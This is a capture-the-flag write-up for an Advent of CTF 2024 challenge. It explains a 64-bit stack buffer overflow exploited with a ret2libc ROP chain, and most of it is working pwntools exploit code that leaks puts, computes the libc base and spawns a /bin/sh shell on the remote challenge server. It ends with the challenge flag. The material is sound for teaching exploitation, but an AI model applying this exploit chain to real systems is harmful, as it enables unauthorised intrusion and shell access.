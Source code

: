 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day16_description.png">

First, I decompiled the binary in dogbolt:
<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_16_info.png">

Its a simple program, but there is a buffer overflow at `fgets(&buf, 0x80, stdin);`, where 128 bytes are read inside buf, which is a type void. There is no win function so I used ROP. The file is also a 64 bit executable, which is important to keep in mind. First I tried to find the correct offset using the same approach as in the previous binary challange ([day10]()). Basically 
I used `cyclic_find` to which I added 8 bytes (size of RBP) and the final offset was `72`. Alright, now my ideas was to leak the puts address, which then will help me calculate the base address of libc. This is needed since ASLR is enabeled. Since this was a 64 bit executable (remember!?) we also need to be carefull how parameters are passed to functions. Basically a ROP gadget is needed to pop the value of RDI (throught which function parameters are passed). To find one I used:
```bash
ROPgadget --binary main | grep "pop rdi"
```
Now, we just need to put the value we want to print (in this case is the memory address of puts) in RDI and then put the function call on the stack. Finally, we need to re-run the main function, so we can do the actual exploit and get the shell.  Here is the exploit described so far:
```python
from pwn import *

elf = ELF('./main')
libc = ELF('libc.so.6') 

rop = ROP(elf) 

buffer_offset = 72          
pop_rdi_ret = 0x0000000000401196       
puts_plt = elf.plt['puts']   
puts_got = elf.got['puts']  
main_addr = 0x4011ee  

payload = b"A" * buffer_offset          
payload += p64(pop_rdi_ret)              
payload += p64(puts_got)                 
payload += p64(puts_plt)                 
payload += p64(main_addr)
```
Sending the payload now, a line is returned which shows us what we entered and at the end the leaked puts address, so its important to parse this correctly to get the correct address. I definitely made my approach more complicated than it needed to be:


```python
p = process('./main')          
p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)                      

output = p.recvline()  
hex_output = ' '.join('{:02x}'.format(byte) for byte in output)
raw_bytes = bytes.fromhex(hex_output.replace(' ', '')) 

search_sequence = b'\x96\x11\x40'
position = raw_bytes.find(search_sequence)
result = raw_bytes[position + len(search_sequence):]
result_without_last_byte = result[:-1]

print(result_without_last_byte)

leaked_puts = int.from_bytes(result_without_last_byte, byteorder='little')

```

I transform the data to hex and look at the bytes after the `96 11 40` sequence which is the address of pop_rdi_ret, but in little endian. Then I just delete the last byte which is the `\n` character and transofrmed the addres to big endian and then make it an integer value.

Now, I can calculate the value of the base libc by substracting from the memory address of puts, the offset of puts. With the base libc I can calculate the memory address of the `system` function and the `\bin\sh` string:

```python
libc_base = leaked_puts - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))

```
Finally we craft the exploit in a similar manner as for the first step, with the only difference being the addition of a ret gadget, which is used for stack alignment.

```python
ret = rop.find_gadget(['ret'])[0] 

payload = b"A" * buffer_offset
payload += p64(ret)             #for stack alignment !!!
payload += p64(pop_rdi_ret)  
payload += p64(bin_sh_addr)
payload += p64(system_addr) 

p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)
p.interactive() 
```

Then we get a shell and thus the flag if we connect remote. Below is my final complete script with some addtional prints:

```python
from pwn import *

elf = ELF('./main')
libc = ELF('libc.so.6') 
context.log_level='debug'

io = process(elf.path)

rop = ROP(elf) 

# Attach gdb to the running process
#gdb.attach(io, gdbscript=""" set environment LD_LIBRARY_PATH ./libc.so.6 """)

host = "ctf.csd.lol"
port = 2020 

buffer_offset = 72          
pop_rdi_ret = 0x0000000000401196       
puts_plt = elf.plt['puts']   
print("puts_p in Hex:", hex(puts_plt))
puts_got = elf.got['puts']  
print("puts_got in Hex:", hex(puts_got))
main_addr = 0x4011ee         


payload = b"A" * buffer_offset          
payload += p64(pop_rdi_ret)              
payload += p64(puts_got)                 
payload += p64(puts_plt)                 
payload += p64(main_addr)                


#p= process('./main')
p = remote(host,port)          
p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)                      



output = p.recvline()  
print("TESTTT "+ output.decode(errors='ignore'))
hex_output = ' '.join('{:02x}'.format(byte) for byte in output)
print("TESTTT " + hex_output)


raw_bytes = bytes.fromhex(hex_output.replace(' ', ''))  

# Take the bytes after pop_rdi_ret address
search_sequence = b'\x96\x11\x40'

position = raw_bytes.find(search_sequence)

result = raw_bytes[position + len(search_sequence):]
print(result)

result_without_last_byte = result[:-1]
print(result_without_last_byte)

leaked_puts = int.from_bytes(result_without_last_byte, byteorder='little')
print(leaked_puts)

libc_base = leaked_puts - libc.symbols['puts']
print(libc.symbols['puts'])
print("libc_base: " + str(libc_base))

system_addr = libc_base + libc.symbols['system']
print("system_addr: " + str(system_addr))

bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))
print("bin_sh_addr : " + str(bin_sh_addr ))

ret = rop.find_gadget(['ret'])[0] 

payload = b"A" * buffer_offset
payload += p64(ret)             #for stack alignment !!!
payload += p64(pop_rdi_ret)  
payload += p64(bin_sh_addr)
payload += p64(system_addr) 


p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)
p.interactive() 

```

An important note is to remember to use `pwnutils` for the local exploit when the libc is given, I personally did not know that and I had the correct script locally, but of course it didn't work because it's not loading the correct libc. So just putting the executable and libc file in the same directory is not enough !!!


`csd{J1Ngl3_b3ll_r0CK_15_b357_XM45_50NG}`

